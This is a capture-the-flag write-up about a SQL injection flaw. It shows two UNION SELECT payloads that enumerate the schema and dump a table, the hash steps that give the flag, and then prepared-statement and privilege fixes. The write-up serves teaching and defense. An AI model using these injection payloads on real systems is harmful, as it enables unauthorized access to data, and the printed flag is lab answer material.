 # Reproduction:

1. **List all columns with their associated tables**:  
   ```sql
   1 UNION SELECT table_name, column_name FROM information_schema.columns;
   ```
   **Result of interest**:  
   - **Table**: `list_images`  
   - **Column**: `comment`  

2. **Display the contents of the `comment` column in the `list_images` table**:  
   ```sql
   1 UNION SELECT title, comment FROM list_images;
   ```
   **Intriguing result**:  
   - **Title**: *"If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"*  
   - **Comment**: *Hack me ?*

3. **Decoding the flag**:  
   - Decrypted MD5: `albatroz`  
   - Lowercase: `albatroz`  
   - SHA-256: `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

---

# Problem:

The application is vulnerable to SQL injection, allowing:
1. Listing all tables and columns.
2. Exploring and displaying sensitive data present in these tables.

---

# Solution:
1. **Prepared statements**:  
   Use parameters to prevent direct execution of user inputs, for example in PHP:  
   ```php
   $stmt = $pdo->prepare("SELECT * FROM users WHERE id = :id");
   $stmt->bindParam(':id', $id, PDO::PARAM_INT);
   $stmt->execute();
   ```  

2. **Input validation**:  
   Always filter inputs to prevent the execution of SQL commands.  

3. **Limited privileges**:  
   The database user should not have access to sensitive data such as `information_schema`.  

With these corrections, we can block this type of attack.